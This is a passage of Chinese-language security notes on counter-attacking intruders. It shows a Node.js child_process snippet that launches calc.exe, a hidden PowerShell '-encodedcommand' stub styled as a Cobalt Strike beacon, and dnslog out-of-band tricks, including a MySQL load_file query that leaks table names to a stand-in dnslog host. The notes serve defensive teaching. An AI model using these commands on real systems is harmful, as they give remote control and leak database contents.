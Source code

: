 ```
js代码：
(function(){
require('child_process').exec('calc.exe');
})();
```

上线代码（CS的powershell）：

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABXXXXXXXX......');
})();
```

![def6a8a145be43988e67acf922cabde1](assets/def6a8a145be43988e67acf922cabde1.png)

### 2.2.4. dnslog反制

攻击方在对目标进行攻击的时候，有时候会遇到无回显的情况，那么就会使用结合dnslong的方式，这里能够将回显的内容带回，例如：

```
ping xx.dnslog.com
load_file(CONCAT('\\',(select hex(table_name) from information_schema.tables where table_schema=database() limit 0,1),'.xx.dnslog.com'))
```

一般情况下在安全设备的日志中是能够看到dnslong的地址的，如果没有告警，那么就只能从相关的中间件日志中靠经验就搜集了，可以使用一些关键字来查看。
